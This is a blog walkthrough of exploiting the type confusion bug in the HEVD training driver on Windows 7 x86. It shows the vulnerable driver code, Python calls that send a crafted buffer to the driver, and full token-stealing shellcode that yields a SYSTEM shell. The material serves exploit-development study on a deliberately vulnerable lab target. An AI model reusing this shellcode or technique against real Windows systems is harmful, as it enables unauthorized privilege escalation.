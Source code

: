 ```yaml
---
layout: post
title: HEVD | Windows 7 x86 Kernel Type Confusion
date: 2020-02-09
tags: malware
---
```


----

Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Kernel level Type Confusion bug vulnerability.

### Exploit development = Windows 7 x86 Kernel Type Confusion

----

**What are Type Confusion bugs?**

Type Confusion bugs fall into the memory corruption class family, Type Confusion bugs tend to be highly exploitable, and there a lot of in-the-wild instances of Type Confusions being exploited (commonly in Browsers like Chromes V8 Engine).

Type Confusion occurs when a program allocates resources like a pointer or variable using one type, but later on, the program tries to access the same resources using a type that is not compatible with the original setting. This is the Type *confusion*, where the types of not compatible and thus leads to a vulnerability.

So when an application doesn't verify the type of object it's processing and then processes it as some other object, an attacker can abuse this.

----

**Bugs in Kernel-mode**

Since this is dealing with a Kernel-mode driver (HEVD), we will need to utilize an IOCTL and the same `CreateFileA()` and `DeviceIoControl()` functions to establish and obtain communication to a kernel-mode driver.

----

**HEVD vulnerable code analysis**

```c++
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is properly setting 'Callback'
        // member of the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer
        // of 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
#else
        DbgPrint("[+] Triggering Type Confusion\n");

        //
        // Vulnerability Note: This is a vanilla Type Confusion vulnerability due to improper
        // use of the 'UNION' construct. The developer has not set the 'Callback' member of
        // the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer of
        // 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

(This code is taken from the TypeConfusion.c file from the HEVD source release.)

As far as good and secure practices go, the first example of a secure program functionality show, 

```c++
KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

It's secure since the code is properly setting the `Callback` function before passing it to `KernelTypeConfusionObject` which is stored in a variable.

```c++
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```
The vulnerable code is obvious since it's simply not properly setting the `Callback` before it is passing the pointer on to `KernelTypeConfusionObject` 

```c++
NTSTATUS
TypeConfusionObjectInitializer(
    _In_ PKERNEL_TYPE_CONFUSION_OBJECT KernelTypeConfusionObject
)
{
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();

    DbgPrint("[+] KernelTypeConfusionObject->Callback: 0x%p\n", KernelTypeConfusionObject->Callback);
    DbgPrint("[+] Calling Callback\n");

    KernelTypeConfusionObject->Callback();

    DbgPrint("[+] Kernel Type Confusion Object Initialized\n");

    return Status;
}
```

Within the `TypeConfusionObjectInitializer` function, there is the `PKERNEL_TYPE_CONFUSION_OBJECT` structure. This 
function will take an object and calls the function pointer which is in the object. 

The structure layout for `PKERNEL_TYPE_CONFUSION_OBJECT` structure is in TypeConfusion.h

```c++
typedef struct _USER_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;

#pragma warning(push)
#pragma warning(disable : 4201)
typedef struct _KERNEL_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    union
    {
        ULONG_PTR ObjectType;
        FunctionPointer Callback;
    };
} KERNEL_TYPE_CONFUSION_OBJECT, *PKERNEL_TYPE_CONFUSION_OBJECT;
```
Essentially,

There are two structures, a user-mode object and a kernel-mode one. The user-mode one takes an `ObjectID` and a `ObjectType` as two members, but the kernel-mode structure is a UNION, and a UNION can only hold one member at a time, and since the kernel-mode one (UNION one) has two, the `ObjectType` and the `Callback`. This is where the confusion actually occurs. When the `TriggerTypeConfusion` function doesn't validate that the second member that is passed is the `ObjectType` or `Callback`

![union holds one](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/union-one.png)

You can probably already guess how the attack will play out.

----

**Driver communication & BSOD**

To set up an initial connection to the Device driver (in kernel land), we need an IOCTL. We can use IDA Pro for IOCTL discovery within the driver or check the HEVD source code.

```c++
#define HEVD_IOCTL_TYPE_CONFUSION                                IOCTL(0x808)
```

(from HackSysExtremeVulnerableDriver.h's IOCTL CTL_CODE macro definitions)

This IOCTL can be decoded with python to:

![macro calculation](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/macro.png)

After obtaining an IOCTL (0x222023) from the driver, we can utilize the CreateFileA() function to receive a handler to the drive. 

```python
device_handle = kernel32.CreateFileA("\\\\.\HackSysExtremeVulnerableDriver",
                                        0xC0000000,
                                        0,
                                        None,
                                        0x3,
                                        0,
                                        None)
```

After obtaining and opening a handler to the device, we can use the DeviceIoControl() function combined with our previously obtained IOCTL to send data to the driver.

```python
sending_payload = kernel32.DeviceIoControl(device_handle,
                            0x222023,
                            buffer_pointer,
                            buffer_size,
                            None, 0,
                            byref(c_ulong(), 0))
```

For exploitation puposes, all you need to do is pass a structure who's second member is the address of the function you want to call from kernel-land, in this case thats the pointer and address to our shellcode payload.

----

**Token stealing shellcode payload**

As a payload to obtain NT\Authority System privileges, we will be using the same token-stealing shellcode payload as seen in previous HEVD exploitation posts.

```python

token_stealing_shellcode = (
"\x60"                            # pushad
"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
"\x8b\x40\x50"                    # mov eax,[eax+0x50]
"\x89\xc1"                        # mov ecx,eax
"\xba\x04\x00\x00\x00"            # mov edx,0x4
"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
"\x75\xed"                        # jnz 0x1a
"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
"\x61"                            # popad
"\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
"\x5D"                            # pop ebp
"\xC2\x08\x00"                    # ret 8
# cleanup routine
"\x61"                            # popad
"\xc3"                            # ret
)

```

We can add a cleanup routine at the end of our shellcode payload to ensure it doesn't only last one time before the system goes BSOD. This is a POPAD followed by a RET, this will push all the register values to the stack and return to the normal program flow.

----

**Gaining full exploitation & EOP**

Now that we have the IOCTL, both functions to communicate with the driver, a pointer to out shellcode payload, and the proper cleanup function in our assembly shellcode payload, we can run the exploit against HEVD.sys

![EOP](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/typeconfusion_eop.png)

And you are presented with an NT AUTHORITY\SYSTEM spawned command prompt.

----

**Conclusion**

After finding an IOCTL and calculating it's values, we can communicate with a kernel-mode driver (HEVD.sys) and utilize a Type Confusion bug within a certain function in which we pass our IOCTL, buffer pointer, and buffer size to. Unlike the standard stack-based buffer overflow where you send the IOCTL, buffer ID, and the buffer size. Since we sent that pointer, we can take advantage of the Type Confusion bug. Giving us EOP (Escalation Of Privileges) and obtaining an NT AUTHORITY\SYSTEM shell on the system.

The full exploit code can be found [here](https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_TypeConfusion.py)
